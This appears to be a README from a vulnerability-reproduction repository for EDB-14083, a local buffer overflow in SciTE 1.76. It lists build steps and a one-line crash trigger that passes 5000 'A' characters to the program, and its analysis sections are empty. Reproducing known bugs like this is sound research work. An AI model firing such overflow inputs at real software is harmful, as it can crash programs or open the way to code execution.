 # EDB-14083

## Experiment Environment

Ubuntu 14.04LTS

## INSTALL & Configuration

```
wget https://github.com/mudongliang/source-packages/raw/master/EDB-14083/scite176.zip
unzip scite176.zip
cd scite/gtk
make
```

## Problems in Installation & Configuration


## How to trigger vulnerability

```
cd ../bin
./SciTE `perl -e 'print "A"x5000'`
```

## PoCs

[Scite Text Editor 1.76 - Local Buffer Overflow (PoC)](https://www.exploit-db.com/exploits/14083/)

## Vulnerability Details & Patch

### Root Cause

### Stack Trace

## References
